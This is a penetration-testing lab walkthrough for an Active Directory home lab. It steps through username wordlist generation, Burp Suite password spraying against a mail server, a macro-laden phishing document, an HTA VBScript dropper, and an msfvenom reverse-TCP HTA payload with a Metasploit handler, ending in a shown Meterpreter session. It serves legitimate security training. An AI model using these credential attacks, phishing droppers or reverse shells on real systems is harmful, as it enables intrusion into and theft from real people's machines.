 # 1. Exploring Website Information and Generating Wordlist:

- During the process of enumeration, we discovered the presence of user information.

- We compiled a list of usernames and saved them in a file for further analysis and use.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/a7f02083-5420-475e-a8c4-6027e43eb40a)

-  Use the ["usernamify"](https://github.com/singhx-hub/Usernamify) script to generate usernames by combining the first and last names from our user list and save the output in a text file

```python
└─$ ./usernamify.py web-users > userlist
jonathontaylor
taylorjonathon
jonathon.taylor
taylor.jonathon
taylorj
----snip------
tjonathon
j.taylor
t.jonathon
jonathon
```

> ## Machines required: WorkStation-01, UbuntuMail, and Kali machine.

- Navigate to the mail server in the browser using the UbuntuMail IP.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/e559bee0-0178-41e2-936f-b955c1fe3980)

- Open Burp Suite and intercept the request using a proxy

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/997b35ea-80be-42bb-963b-2e9286afe884)

- In Burp Suite's Intruder tool, initiate the attack by selecting the request and specifying the user and pass arguments for fuzzing. Add the generated username list to the user section and include common passwords like "summer2021!" and "fall2020!" as payload options. Configure the attack method as "Cluster Bomb" and launch the attack to test different combinations.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/7ca45570-25e8-4edd-9065-e5d325ec801d)

- Accomplished the task by successfully identifying the username "a.tarolli" along with the corresponding password "Summer2021!"
- Log in to the mail server using the a.tarolli creds.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/b7de7ded-114c-49df-abe6-10bfd5874ba7)

## Phishing Email

- Setup listener on Covenant and generate a PowerShell launcher. 
- Host a file named rev.ps1 and copy the highlighted encoded luncher.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/16328e6b-d1d9-49d5-adba-e2bfc14ca093)

As we don't have MS Word installed on our system so we will use [Nishang's Out-File.ps1 script](https://github.com/samratashok/nishang/blob/master/Client/Out-Word.ps1) to create a Word document and autorun macro with provided payload.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/d093c16b-ce98-4247-a214-aba4c50549cb)

> Setup smbserver using cmd `smbserver.py Share . -smb2support`. To make the file build successfully.

Host the file through Covenant Listener to transfer it.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/e0c7a196-f493-4a1e-af32-a8fe1d9d1253)

Now, we will send the email with the phishing file linked on the link. Click send.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/d9e34e38-f3a1-46bb-bdbf-4296873d9b46)

When on the Workstation-01 we will download the file and open it with enable editing. There is nothing happening on the Workstation-01, but on our Kali machine Covenant, we have an active Grunt activated which means now we shell.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/2699574a-439c-4915-8985-660e1bdf00b5)

> ## Alternate

If in case we don't have MS Word installed in our system we can utilize the `.hta` file to get a shell on Covenant. For this, we need the code:

```vb
<script language="VBScript">

  Function DoStuff()

               Dim wsh

               Set wsh = CreateObject("Wscript.Shell")

                wsh.run "<powershell command>"

               Set wsh = Nothing

  End Function

  DoStuff

  self.close

</script>
```

Now, follow the same steps as above, edit the link in the phishing email and setup listener with the host `.hta` file

When the user opens the file, we will find the grunts active.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/5b9a1ce5-9ac3-4297-8fb2-215c06b18e1f)

## We can achieve the same using METASPLOIT:

First, we must create a `.hta` file using `msfvenom`.

```bash
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.186 LPORT=8080 -f hta-psh -o file.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of hta-psh file: 7912 bytes
Saved as: file.hta
```
Now, open Metasploit and setup the listener using cmds:

```bash
msf6 > use exploit/multi/handler
(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
(multi/handler) > set lport 8888
(multi/handler) > set lhost eth0
(multi/handler) > run
```

Run the generated `.hta` file to the victim's workstation-01.
After running the file we get meterpreter shell back to our machine.

```bash
[*] Sending stage (200774 bytes) to 192.xxx.xxx.xxx.
[*] Meterpreter session 1 opened (192.xx.xxx.xxx:8080 -> 192.xxx.xxx.xxx.:50324) at 2023-07-23 19:25:35 +0100
sessions
meterpreter > getuid
Server username: mayorsec\s.chisholm
meterpreter > 
```
